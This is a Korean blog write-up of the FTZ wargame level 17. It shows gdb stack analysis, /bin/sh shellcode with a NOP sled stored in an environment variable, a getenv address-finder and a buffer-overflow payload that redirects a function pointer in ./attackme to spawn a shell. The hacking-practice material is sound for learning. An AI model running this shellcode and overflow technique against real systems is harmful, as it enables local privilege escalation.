 ```yaml
---
title:  "[FTZ] level 17"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-20 07:02:59

---
```


# level 17

**level17 / king poetic**

힌트

![image](https://user-images.githubusercontent.com/69203345/146723724-cbb3dee9-75b5-4d32-819c-fc94d520c286.png)

shell 함수가 사라짐  
shell 코드를 환경변수에 넣고 printit대신 나오게하면 될것..?

바로 gdb로 분석

![image](https://user-images.githubusercontent.com/69203345/146724338-149c952b-ecf7-48c5-b379-c34befcb3d23.png)


낮은주소 

buf[20] [ebp-56]  
dummy[20]  
*call[4] [ebp-16]  
crap[4]+dummy[8]  
sfp[4]  
ret[4]

높은주소

이번에도 주소는 이런식일 것이다

/tmp 로 이동해서 실행하겠다


환경변수 설정
> export EGG=\`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`  
> echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); } ' > getenv.c  
> gcc getenv.c -o getenv

![image](https://user-images.githubusercontent.com/69203345/146725358-8c3e0f65-b255-4568-a247-39a8a6a985d1.png)

나온 주소를 페이로드에 사용  
> (python -c 'print"A"*40+"\x9b\xfc\xff\xbf"' ; cat) | ./attackme

![image](https://user-images.githubusercontent.com/69203345/146725655-098c06ff-e42c-4c0b-a86d-9bca3730a350.png)